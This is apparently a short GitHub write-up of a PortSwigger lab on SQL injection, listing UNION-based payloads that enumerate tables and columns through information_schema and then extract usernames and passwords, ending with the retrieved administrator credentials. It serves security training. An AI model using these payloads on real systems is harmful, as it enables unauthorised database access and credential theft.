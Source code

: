 ## Lab Description
![image](https://github.com/rahulr98/Portswigger_LABs/assets/116432525/699d1c82-b330-4136-8d0c-904dd815312b)

Determine the number of columns that are being returned by the query and which columns contain text data. 

  - Use the following payload to retrieve the list of tables in the database:
`'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--`
 
![1](https://github.com/rahulr98/Portswigger_LABs/assets/116432525/d6de7b78-347d-45fb-8da5-f723ecefec9e)

 - retrieved table:

![2](https://github.com/rahulr98/Portswigger_LABs/assets/116432525/13f076c0-7e3f-466e-ad25-675c985023a9)


  - Use the following payload (replacing the table name) to retrieve the details of the columns in the table:

`'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--`

![3](https://github.com/rahulr98/Portswigger_LABs/assets/116432525/51fa6a82-8a0f-415b-a0df-4015b3abd76c)

  - Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users:

`'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--`

![4](https://github.com/rahulr98/Portswigger_LABs/assets/116432525/61bad9bc-19bd-4aa4-957e-ebe44a4b88c1)

Retreived the passwords for administrator and users.

![5](https://github.com/rahulr98/Portswigger_LABs/assets/116432525/776965cb-0729-4ae9-b478-f48ab751c291)
